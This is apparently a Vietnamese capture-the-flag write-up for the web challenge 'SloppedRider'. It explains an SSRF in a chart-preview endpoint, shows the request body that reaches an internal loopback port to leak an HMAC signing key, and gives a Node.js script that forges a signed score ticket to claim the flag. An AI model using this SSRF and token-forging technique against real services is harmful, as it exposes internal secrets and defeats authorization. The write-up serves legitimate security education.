





# Web/SloppedRider



\- Một chall beginner và tốn tại lỗ hổng khá phổ biến trong các bài ctf: **SSRF**

\- Khi đọc `server.js`, ta biết được web chạy song song 2 server ở các port:
- Port 3000: 0.0.0.0 là wildcard, nghĩa là lắng nghe trên mọi interface IPv4, nhận traffic từ bên ngoài
```javascript
const PORT = Number(process.env.PORT || 3000);
...
createOpsServer();
app.listen(PORT, "0.0.0.0", () => {
  console.log(`SloppedRider listening on http://0.0.0.0:${PORT}/rider`);
});
```

- Port 43219: 127.0.0.1 là địa chỉ loopback, Kernel chỉ chuyển kết nối đến socket này khi request đến từ chính máy/container đó

<details>

<summary>server.js:403</summary>

```javascript
const OPS_PORT = Number(process.env.OPS_PORT || 43219);
...
function createOpsServer() {
  const server = net.createServer((socket) => {
    socket.once("data", (buf) => {
      const firstLine = String(buf).split("\r\n")[0] || "";
      const pathPart = firstLine.split(" ")[1] || "/";
      let body;
      if (pathPart === "/health") {
        body = JSON.stringify({ ok: true, service: "sloppedrider-ops" });
      } else if (pathPart === "/ops/config") {
        body = JSON.stringify({
          service: "sloppedrider-ops",
          scoreKey: SCORE_KEY,
          targetScore: TARGET_SCORE,
          note: "score tickets are HMAC-SHA256 over the base64url JSON payload"
        });
      } else {
        body = JSON.stringify({ error: "not found" });
      }
      socket.end(
        [
          "HTTP/1.1 200 OK",
          "Content-Type: application/json; charset=utf-8",
          `Content-Length: ${Buffer.byteLength(body)}`,
          "Connection: close",
          "",
          body
        ].join("\r\n")
      );
    });
  });
  server.listen(OPS_PORT, "127.0.0.1");
}
```
</details>

### Recon 



\- Khi tương tác với giao diện trang web, có một chức năng đó chính là "Start ride", làm sao để đạt được số điểm 676767 và nhận flag. Thế nhưng điểm cao nhất mà ta có thể đạt được chỉ là 5000


- Request lấy điểm:


\- Với source code được cung cấp, ta cần nghiên cứu xem luồng tính điểm đang được làm như nào

<details>
    <summary>/api/score</summary>

```javascript
app.post("/api/score", (req, res) => {
  let ticket;
  try {
    ticket = verifyTicket(req.body?.rideTicket);
  } catch {
    res.status(400).json({ ok: false, error: "invalid ride ticket" });
    return;
  }

  const score = Number(req.body?.score);
  const nick = String(req.body?.nick || "anonymous").replace(/[^a-zA-Z0-9 _.-]/g, "").slice(0, 24) || "anonymous";
  if (!Number.isInteger(score) || score < 0) {
    res.status(400).json({ ok: false, error: "bad score" });
    return;
  }

  const claimedCap = Number(ticket.cap);
  if (!Number.isFinite(claimedCap) || score > claimedCap) {
    res.status(400).json({ ok: false, error: `score exceeds verified ride cap ${claimedCap}` });
    return;
  }

  const entry = {
    nick,
    score,
    symbol: String(ticket.symbol || "CUSTOM").slice(0, 12),
    at: new Date().toISOString()
  };
  leaderboard.push(entry);
  leaderboard.sort((a, b) => b.score - a.score);
  leaderboard.length = Math.min(leaderboard.length, 25);

  if (score >= TARGET_SCORE) {
    res.json({ ok: true, rank: leaderboard.findIndex((x) => x === entry) + 1, flag: FLAG });
    return;
  }
  res.json({ ok: true, rank: leaderboard.findIndex((x) => x === entry) + 1 });
});
```
</details>

\- Luồng tính điểm này nhận `score` là số điểm đạt được, đây có thể là nơi ta biến đổi thành số điểm 676767 để có flag

\- `rideTicket` nhận chuỗi trả về từ hàm `makeTicket()`:
```javascript
function makeTicket(data) {
  const payload = encodeJson(data);
  return `${payload}.${signPayload(payload)}`;
}
```
- Trong đó hàm `signPayload` dùng để ký chuỗi payload bằng HMAC-SHA256 với SCORE_KEY
```javascript
function signPayload(payload) {
  return crypto.createHmac("sha256", SCORE_KEY).update(payload).digest("base64url");
}
```

\- Đến đây, ta cần tìm cách để leak ra SCORE_KEY. Khi đọc lại `server.js:403` ở trên, ta thấy có đoạn

```javascript
...
if (pathPart === "/health") {
        body = JSON.stringify({ ok: true, service: "sloppedrider-ops" });
      } else if (pathPart === "/ops/config") {
        body = JSON.stringify({
          service: "sloppedrider-ops",
          scoreKey: SCORE_KEY,
          targetScore: TARGET_SCORE,
          note: "score tickets are HMAC-SHA256 over the base64url JSON payload"
        })
...
```
&rarr; Nếu SSRF thành công và gọi đến `http://127.0.0.1/ops/config`, ta sẽ đọc được biến môi trường SCORE_KEY 

\- Có hai vị trí quan trọng trong source code

<details>
    <summary>Hàm fetchUrl()</summary>

```javascript
function fetchUrl(rawUrl) {
  return new Promise((resolve, reject) => {
    let parsed;
    try {
      parsed = new URL(rawUrl);
    } catch {
      reject(new Error("invalid url"));
      return;
    }

    if (!["http:", "https:"].includes(parsed.protocol)) {
      reject(new Error("only http(s) chart feeds are supported"));
      return;
    }

    const client = parsed.protocol === "https:" ? https : http;
    const req = client.request(
      parsed,
      {
        method: "GET",
        timeout: 2500,
        headers: { "User-Agent": "SloppedRider chart previewer" }
      },
      (res) => {
        let body = "";
        res.setEncoding("utf8");
        res.on("data", (chunk) => {
          body += chunk;
          if (body.length > 64 * 1024) {
            req.destroy(new Error("too large"));
          }
        });
        res.on("end", () => resolve({ status: res.statusCode || 0, body }));
      }
    );
    req.on("error", reject);
    req.on("timeout", () => req.destroy(new Error("timeout")));
    req.end();
  });
}
```
</details>

<details>
    <summary>Route trigger SSRF</summary>

```javascript
app.post("/api/chart/preview", async (req, res) => {
  const feedUrl = String(req.body?.url || "");
  if (feedUrl.length > 300) {
    res.status(400).json({ error: "url too long" });
    return;
  }

  try {
    const result = await fetchUrl(feedUrl);
    const json = JSON.parse(result.body);
    const chart = normalizeChart(json);
    if (!chart) {
      res.status(400).json({
        error: "chart feed must include 8-256 positive prices",
        sample: result.body.slice(0, 600)
      });
      return;
    }
    res.json({
      sourceStatus: result.status,
      chart,
      rideTicket: makeTicket({
        v: 1,
        kind: "preview",
        symbol: chart.symbol,
        period: chart.period,
        cap: realScoreCap(chart),
        iat: Math.floor(Date.now() / 1000)
      })
    });
  } catch (err) {
    res.status(502).json({
      error: "chart feed failed",
      detail: err instanceof Error ? err.message : "unknown"
    });
  }
});
```
</details>

\- Quá rõ ràng khi lỗ hổng xảy ra khi server fetch URL tùy ý mà không chặn IP loopback, IP nội bộ

### Khai thác

1. Leak SCORE_KEY
\- Gửi request POST đến `/api/chart/preview`, với body 
```json
{
    "url":"http://127.0.0.1:43219/ops/config"
}
```
\- Đọc response mà thành công nhận được SCORE_KEY



2. Base64-decode và ký chuỗi payload

\- Tạo dữ liệu ticket:
```javascript
{
    "v":1,
    "kind":"ride",
    "symbol":"SLOP",
    "period":"1y",
    "cap":676767,
    "iat":0
}
```
- Tại luồng `/api/score`, server lại tin tưởng vào cap trong ticket `(const claimedCap = Number(ticket.cap);)` thay vì so sánh với cap mặc định từ hàm `realScoreCap()` 

\- Mã hóa JSON trên thành Base64: 
```
eyJ2IjoxLCJraW5kIjoicmlkZSIsInN5bWJvbCI6IlNMT1AiLCJwZXJpb2QiOiIxeSIsImNhcCI6Njc2NzY3LCJpYXQiOjB9
```

\- Ký chính chuỗi payload 

```
f-z7L91weUrEhWq-F-OA3pxTFxv6RYvGJkHS8WBe2Ig
```

\- Ghép thành ticket hoàn chỉnh
```
eyJ2IjoxLCJraW5kIjoicmlkZSIsInN5bWJvbCI6IlNMT1AiLCJwZXJpb2QiOiIxeSIsImNhcCI6Njc2NzY3LCJpYXQiOjB9.f-z7L91weUrEhWq-F-OA3pxTFxv6RYvGJkHS8WBe2Ig
```
\- Script tham khảo:

<details>
    <summary>Chạy một phát ăn ngay</summary>

```javascript
const crypto = require("node:crypto");

const SCORE_KEY =
  "3b6bbb0ab2921dee71771f9b07a7974fc475f206fd9534f6bc15d73bfef94d94";

const ticketData = {
  v: 1,
  kind: "ride",
  symbol: "SLOP",
  period: "1y",
  cap: 676767,
  iat: Math.floor(Date.now() / 1000)
};

const json = JSON.stringify(ticketData);
const payload = Buffer.from(json, "utf8").toString("base64url");
const signature = crypto
  .createHmac("sha256", SCORE_KEY)
  .update(payload, "utf8")
  .digest("base64url");
const rideTicket = `${payload}.${signature}`;

console.log("JSON:", json);
console.log("Payload:", payload);
console.log("Signature:", signature);
console.log("Ride ticket:", rideTicket);
console.log(
  "POST body:",
  JSON.stringify({ nick: "pwned", score: 676767, rideTicket }, null, 2)
);
```
</details>

3. Nhận flag



>slopped{riding_0n_M3?}


